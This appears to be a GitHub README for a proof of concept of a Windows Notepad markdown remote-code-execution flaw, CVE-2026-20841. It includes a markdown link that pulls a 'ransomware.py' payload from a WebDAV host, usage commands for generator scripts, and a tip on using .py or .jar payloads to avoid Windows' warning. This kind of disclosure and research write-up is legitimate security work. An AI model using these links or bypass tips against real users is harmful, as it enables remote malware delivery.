


# CVE-2026-20841 PoC

PoC of the "Windows Notepad RCE" vulnerability.

## Disclaimers

1. I am NOT the one who discovered this vulnerability. Props to the original authors listed on the [official disclosure page](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-20841). I just recreated the PoC according to the description.  
2. I personally don't think this vulnerability is as severe as it may look. It takes *more* than one click to trigger, unless certain criteria are satisfied on the target system. Please see the [Criteria and Limitations](#criteria-and-limitations) section. I recreated this PoC because it's very meme-worthy. A "Notepad RCE" sounds crazy af.  

## Description

The "vulnerability" is simple. The markdown engine in Windows Notepad doesn't care about obscure URL protocols. As a malware analyst, I've read many reports about WebDAV- and SMB-based payload deployment. From this [doc](https://learn.microsoft.com/en-us/windows/win32/search/url-formatting-requirements), one can abuse the `file:///` protocol and create a URL that points to a file on a WebDAV/SMB server.  
```Markdown
[BadLink](file:///\\webdav-payload-host@5005\DavWWWRoot\ransomware.py)
```

## Usage

I've made two scripts. One in Node.js and the other in Python. Both create a markdown file pointing to a WebDAV payload. You may use the example payloads in the [sample-payloads](sample-payloads) folder.  

### Node.js
`node poc.js <webdav-server> <port> <payload/path/on/server>`  

### Python
`python poc.py <webdav-server> <port> <payload/path/on/server>`  

The output (`poc.md`) will show up in the current directory.  

## Criteria and Limitations

1. Most payload file extensions (e.g., `.exe`, `.lnk`, `.vbs`, ...) will still trigger a built-in warning despite the Notepad app being vulnerable. The warning comes from Windows itself. At least everything I have tested that can lead to code execution on a default OOB installation shows this mandatory warning.  


2. If the target device has Python or Java installed, you may use a `.py` or `.jar` payload to bypass the warning pop-up.  

## After Patching

  
Clicking on the link now shows a new pop-up warning.

## Misc

You can find the vulnerable version of Windows Notepad from Uptodown. Remember to check the digital signature of the installer and make sure that it's from Microsoft. Also, you should test this PoC only in a VM.  

<u>Stay safe and have fun!</u>
